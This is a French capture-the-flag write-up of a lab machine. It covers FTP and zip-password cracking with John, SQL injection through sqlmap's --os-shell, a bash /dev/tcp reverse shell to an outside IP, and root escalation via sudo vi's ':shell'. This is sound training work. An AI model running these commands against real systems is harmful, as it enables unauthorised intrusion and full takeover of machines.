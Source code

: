 
# Découverte
Avec nmap, on observe 3 ports ouverts :
- 21 : ftp
- 22 : ssh
- 80 : http

On peut accéder au ftp avec l'utilisateur "anonymous" et on récupère le fichier "backup.zip".
Le fichier est protégé par un mot de passe.
On utilise John pour le casser :
```bash
zip2john backup.zip > backup_pwd_hash.txt
john backup_pwd_hash.txt 
```

On décompresse le zip et on récupère le code source du site web qui est présent sur le port 80. Dans ce code php, il y a le hash md5 du mot de passe admin codé en dur.
On utilise à nouveau John pour le casser.

# Site internet
On a accès au site web présent sur le port 80 et on peut passer l'authentification avec les identifiants trouvés précédemment.

Le site web affiche un tableau avec un liste de voiture, et il y a une fonction de recherche.
Cette fonction de recherche est vulnérable aux injections SQL et le site nous  renvoie l'erreur de la base de données quand une requête est fausse.

D'après l'erreur, la commande est :
```SQL
Select * from cars where name ilike '%<input>%'
```

On va utiliser SQLmap pour exploiter ce point d'entrée qui est le paramètre 'search' :
```bash
sqlmap -u 'http://10.129.173.159/dashboard.php?search=test' -p 'search' --cookie 'PHPSESSID=ksff4fp3a4p3lhc06o6pq83ptv' --os-shell
```
*Note* : attention à ne pas oublier le cookie dans la requête.
On obtient alors un shell !

# Shell
On a un shell sur le serveur, mais on est l'utilisateur "postgres".
En se promenant sur le répertoire de postgres on trouve le flag de l'utilisateur.

## Amélioration du shell
Comme le shell de sqlmap n'est pas très stable, on décide de créer un reverse shell depuis notre shell sur sql en exécutant la commande suivante :
```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.15.35/4444 0>&1"
```

Exemple de commande pour reverse shell : https://www.revshells.com/


## Escalade de privilèges
On est connecté en tant que postgres mais on ne connait pas le mot de passe de cet utilisateur et on ne peut donc pas utiliser la commande sudo.
On trouve le code source de l'application dans le dossier `/var/www/html` et en regardant le code source, on trouve le mot de passe de l'utilisateur postgres écrit en clair.
On peut alors se connecter en ssh, ce qui est plus simple.

On essaie de voir si l'utilisateur postgres peut utiliser la commande `sudo -l`, on obtient alors l'output :
```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Donc, la seule commande utilisable en sudo (et donc avec les privilèges root) est : `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

Ce site référence de nombreuses façon d'élever ces privilèges : https://gtfobins.github.io/
En particulier, en cherchant `vi`, on se rend compte que `vi` possède une fonctionnalité avancée qui est d'ouvrir un shell depuis l'éditeur vi.
Donc :
1. `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
2. Depuis l'éditeur vi : `:shell`
3. Un shell en tant que root apparaît !

On trouve ensuite le flag dans le dossier home de l'utilisateur root.


